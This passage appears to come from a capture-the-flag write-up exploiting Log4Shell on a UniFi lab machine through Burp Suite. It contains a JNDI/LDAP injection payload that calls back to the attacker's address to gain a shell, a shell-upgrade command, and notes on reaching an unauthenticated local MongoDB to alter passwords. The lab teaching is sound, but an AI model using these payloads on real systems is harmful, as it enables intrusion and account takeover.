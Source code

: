 Going back to `burpsuite`. Let's intercept the requests once more but this time the payload going to be this instead; <br>
After the payload is already set in place. Now, just click a single button it is the `Send` button & BINGO!

```java
${jndi:ldap://Tun0 IP Address:1389/o=tomcat}
```

![shell as unifi](nc.png "shell as unifi")

## upgrade shell using script
_<font color="yellow">type this command to upgrade shell:</font>_
```bash
script /dev/null -c bash
```

## mongoDB
In this article [sprocketsecurity - another log4j on the fire unifi](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi). it says the `MongoDB` instance storing all application is listening on localhost `without authentication`. This means we can extract the password, alter the data, add our password to it, etc.

## checking mongoDB is running
Just type this command on the victim machine. The output shows us `MongoDB` is running on the victim machine on `port 27117`.

```bash
ps aux | grep mongo
```

![check mongodb present](checking-mongodb.png "check mongodb present")

